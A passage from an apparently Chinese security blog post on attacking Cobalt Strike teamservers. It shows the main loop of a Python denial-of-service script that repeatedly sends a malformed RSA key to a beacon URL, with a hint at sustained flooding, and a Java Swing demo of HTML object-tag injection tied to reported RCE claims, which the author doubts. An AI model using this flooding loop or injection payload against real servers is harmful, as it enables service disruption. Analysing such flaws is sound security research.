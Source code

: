     if __name__ == "__main__":  
        for i in range(100):  
            run("http://192.168.127.130/dot.gif","MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCTUlJ7J79z/MkkV8+MsYlOvREE2hhdGNzrKPFZ10lY0K5legA+um5JxESEaC0woDgSmOGrkh1giz/aQwd6tG4mihFgpi0oIbfwu6XZbE6ghYGyu2F7+A5TifRUzvU0YLXjK78EW12XhjHx4KopMF/AtOAueGwfiI2DmXwNzrBDvwIDAQAB==")  
      
    

在这里只要是修改了密钥的部分格式，导致客户端解析数据异常，造成卡死，只能通过重启teamserver才能恢复，如果一直发送数据包，你懂的。。。。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221001114753.png)

正常格式如上图，通过删除这些数据，即可到达拒绝访问的效果

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221001114756.png)

重启客户端也没用，只能重启teamserver

# 0x03 网传Cobalt Strike rce

网上很多rce都是复现rce都是利用swing包进行反射调用java恶意类，从而达到一个rce效果

## 利用swing的rce分析

    
    
    import javax.swing.*;  
      
    public class SwingDemo {  
      
        private static void createAndShowGUI() {  
            JFrame.setDefaultLookAndFeelDecorated(true);  
            JFrame frame = new JFrame("qwe");  
            frame.setDefaultCloseOperation(JFrame.EXIT_ON_CLOSE);  
      
            JLabel label = new JLabel("<html><object classid='javax.swing.JLabel'><parame name='Text' value='123'>");  
            frame.getContentPane().add(label);  
            frame.pack();  
            frame.setVisible(true);  
        }  
      
        public static void main(String[] args) {  
            javax.swing.SwingUtilities.invokeLater(new Runnable() {  
                public void run() {  
                    createAndShowGUI();  
                }  
            });  
        }  
    }  
      
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221001114757.png)

可以看到这里并没有回显数据产生，说明网传rce复现可能存在问题
